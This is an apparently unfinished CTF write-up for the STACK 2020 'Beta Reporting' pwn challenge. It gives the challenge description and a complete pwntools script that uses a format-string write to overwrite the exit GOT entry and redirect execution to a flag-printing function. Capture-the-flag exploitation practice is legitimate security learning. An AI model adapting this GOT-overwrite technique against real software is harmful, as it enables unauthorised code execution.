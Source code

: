 ```yaml
---
title: "STACK 2020 - Beta Reporting (Pwn)"
header:
  overlay_image: /assets/images/stack-2020/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Steve Johnson"

tags:
  - stack
  - writeup
  - pwn
  - format string
---
```


Summary: A format string attack allows us to overwrite an entry in the GOT to redirect execution to a print flag function.

![Challenge description]({{ site.url }}{{ site.baseurl }}/assets/images/stack-2020/45BF71893F2FAEC58FC6BD02469194FC.jpg){: .align-center}

```
Beta reporting system
988 BINARY EXPLOITATION
21 SOLVES

DESCRIPTION
The developer working for COViD that we arrested refused to talk, but we found a program that he was working on his laptop. His notes have led us to the server where the beta is currently being hosted. It is likely that there are bugs in it as it is a beta.

Note: ASLR is enabled on the OS. PIE is not enabled.

Please view this Document for download instructions.

nc yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg 30121

This challenge:
- Is eligible for Awesome Write-ups Award
```

Full writeup to be completed...

Exploit script:

```python
#!/usr/bin/env python

'''
Beta Reporting Solver
'''

from pwn import *

context.update(arch='i386', os='linux')
context.log_level = 'debug'


def main():
    # p = process("./beta_reporting")
    p = remote('yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg', 30121)

    # Call the magic function to place the 'flag' string in the magic variable.
    p.recvuntil('Enter your choice:')
    p.sendline('4')

    # Construct the format string to write the address of unknownfunction into exit GOT.
    # Add a small offset for reasons.
    unknownfunction = 0x80488f7
    exit_got = 0x804b028
    fmtstr, payload = fmtstr_split(11, {exit_got: unknownfunction}, write_size='short')
    log.info('Format String: {}'.format(fmtstr))
    log.info('Payload: {}'.format(payload))
    p.sendline('1')
    p.sendline(fmtstr)
    p.recvuntil('Enter your choice:')

    # Trigger the printf and pass the addresses.
    p.sendline('2')
    p.recvuntil('Please enter your name: ')
    p.sendline(payload)
    p.recvuntil('Please enter report number or press 0 to return to menu:')
    p.sendline('1')
    p.recvuntil('Please enter report number or press 0 to return to menu:')
    p.sendline('0')
    p.recvuntil('Enter your choice:')

    # print(p.proc.pid)
    # input()

    # Trigger the overwritten exit.
    p.sendline('5')

    # Get one line.
    log.success('Flag: {}'.format(p.recvuntil('}')))


if __name__ == '__main__':
    main()
```

**Flag:** `govtech-csg{c0v1d_5y5tem_d0wn!}`
